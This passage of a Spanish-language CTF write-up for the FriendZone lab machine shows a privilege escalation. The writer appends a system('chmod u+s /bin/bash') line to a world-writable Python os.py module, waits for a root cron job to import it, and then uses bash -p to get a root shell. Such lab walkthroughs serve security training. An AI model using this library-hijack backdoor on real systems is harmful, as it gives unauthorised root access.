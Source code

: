 Si vemos quien es el propietario es **root** y ademas tenemos capacidad de escritura así que podemos alterar lo que hay o almacenar otras cosas

```bash
friend@FriendZone:/dev/shm$ ls -l /usr/lib/ | grep "python2.7"
drwxrwxrwx 27 root root  16384 Sep 13  2022 python2.7
friend@FriendZone:/dev/shm$ 
```

Hay vemos el **os.py**

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -l os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 os.py
friend@FriendZone:/usr/lib/python2.7$ 
```

Vamos a alterar el contenido al final del **Script** le vamos a decir que mediante **system** ya que estamos en la librería **os** le asigne privilegios **SUID** ala bash para solo hacer un **bash -p** y estar como **root**

```bash
friend@FriendZone:/usr/lib/python2.7$ cat os.py | tail -n 1
system("chmod u+s /bin/bash")
friend@FriendZone:/usr/lib/python2.7$ 
```

Asta ahora la **bash** sigue igual 

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
friend@FriendZone:/usr/lib/python2.7$ 
```

Vamos a esperar a que **root** ejecute la tarea y cuando se importe la librería **os.py** la **bash** sera vulnerable

Después de un momento se ejecuta la tarea 

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
friend@FriendZone:/usr/lib/python2.7$ 
```

## Shell as root && root.txt 

```bash
friend@FriendZone:/usr/lib/python2.7$ bash -p
bash-4.4# cd /root
bash-4.4# cat root.txt 
6f8fcc773803f7762e546e281f01b232
bash-4.4# 
```
